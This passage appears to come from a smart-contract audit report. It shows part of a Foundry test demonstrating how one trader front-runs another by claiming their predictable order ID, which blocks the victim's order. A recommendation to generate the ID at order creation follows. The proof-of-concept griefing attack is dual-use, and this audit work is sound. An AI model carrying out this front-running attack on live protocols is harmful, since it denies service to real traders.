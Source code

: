 ```
            orderSize: orderSize / 2,
            expectedPrice: currentMarketPrice * PRICE_FACTOR,
            maxSlippage: DEFAULT_TRADE_SLIPPAGE
        });

        vm.startPrank(TRADER_1);

        // TRADER_1 sees that TRADER_2 wants to create a new position and frontruns 
        // TRADER_2s order and creates a decrease order with TRADER_2s orderId, 
        // this decrease order can never be executed, meaning TRADER_1 will
        // never pay the fee, effectively greifing TRADER_2 for a small gas cost
        orderManager.createOrder(orderStruct, address(0));

        vm.stopPrank();

        deal(WETH, TRADER_2, collateralAmount);

        bytes32 orderId2 = orderManager.getOrderId(ETH_MARKET_ID, ethVaultAddress, TRADER_2, isLong, 0);

        OrderDS.Order memory orderStruct2 = OrderDS.Order({
            orderId: orderId2,
            marketId: ETH_MARKET_ID,
            userAddress: TRADER_2,
            orderType: OrderDS.OrderType.OPEN_NEW_POSITION,
            isLong: isLong,
            isLimitOrder: false,
            deadline: 0,
            collateralAmount: collateralAmount,
            orderSize: orderSize,
            expectedPrice: 0,
            maxSlippage: DEFAULT_TRADE_SLIPPAGE
        });

        vm.startPrank(TRADER_2);
        ERC20(WETH).approve(address(orderManager), collateralAmount);

        // Reverts because TRADER_1 already created an order with that orderId
        vm.expectRevert(LibError.ExistingOrder.selector);
        orderManager.createOrder(orderStruct2, address(0));
        vm.stopPrank();

    }
```

###  Recommendation:
Consider creating the orderId when creating the order itself.

###  Resolution:
